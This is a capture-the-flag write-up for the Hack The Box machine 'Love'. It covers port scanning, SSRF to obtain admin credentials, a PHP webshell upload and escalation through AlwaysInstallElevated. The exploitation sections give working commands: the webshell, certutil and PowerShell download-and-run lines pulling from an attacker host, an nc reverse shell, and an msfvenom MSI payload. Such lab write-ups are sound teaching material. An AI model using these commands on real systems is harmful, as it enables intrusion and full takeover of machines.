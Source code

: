 # Love

### Reconnaissance

- port 80/tcp HTTP Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)  
- port 135/tcp RPC  
- port 139/tcp NetBIOS  
- port 443/tcp HTTP Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)  
- port 445/tcp SMB Windows 10 Pro 19042 microsoft-ds  
- port 3306/tcp MySQL  
- port 5000/tcp HTTP Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)  
- port 5040/tcp ??  
- port 5986/tcp Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
- port 7680/tcp pando-pub  
- port 47001/tcp Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
- port 49664-49670/tcp RPC  

The HTTP server on port 80 is a login portal for a Voting System

![Login](./pictures/login.png)

Wappalyzer shows the server uses php

![Wappalyzer](./pictures/wappalyzer.png)

Directory enumeration shows an admin login at /admin

![Login](./pictures/admin.png)

The SSL certificate for port 443 shows a domain of love.htb and a subdomain of staging.love.htb. Adding them 
to /etc/hosts allows us to access the staging subdomain

![SSL](./pictures/ssl-cert.png)

The Demo tab allows us to scan a file by entering a url

![Scan](./pictures/staging-ssrf.png)

We can use SSRF to access the other HTTP server on port 5000, the dashboard shows the admin credentials for 
the love.htb/admin panel

![Scan](./pictures/staging-creds.png)

Logging in to the admin panel, we see that we can upload images by adding a new voter profile

![Add voter](./pictures/add-voter.png)

### Exploitation

There doesn't appear to be any filtering so we can just upload a php webshell

`<?php system($_REQUEST["cmd"]);?>`

We can execute commands by navigating to http://love.htb/images/rev.php and using the cmd parameter to enter 
the command, ensuring the command is urlencoded

We can upload nc.exe and get a stable shell by hosting the binary and using certutil to download it

`http://love.htb/images/rev.php?cmd=certutil+-urlcache+-f+http://10.10.10.10:8000/nc.exe+nc.exe`

Then start a netcat listener and run nc.exe to get a reverse shell

`http://love.htb/images/rev.php?cmd=nc.exe+10.10.10.10+4444+-e+cmd.exe`

### Privilege Escalation

Host PowerUp.ps1 then download and execute it with powershell (Don't forget to add Invoke-AllChecks on the 
last line of PowerUp.ps1)

`echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/PowerUp.ps1') | powershell -noprofile -`

We can see that AlwaysInstallElevated is set to true for HKCU and HKLM, allowing us to elevate privileges via 
a malicious msi

![HKCU](./pictures/hkcu.png)
![HKLM](./pictures/hklm.png)

Create the msi with msfvenom

`msfvenom windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f msi -o shell.msi`

Upload it to the target, start a listener, and use msiexec to run the malicious msi

`msiexec /quiet /qn /i shell.msi`

This gives us a System shell

### Lessons Learned

- Check SSL certificates for domains/subdomains

- If you can't access an exposed HTTP server look for SSRF vulnerabilities

- Check any calls HTTP server's make for SSRF
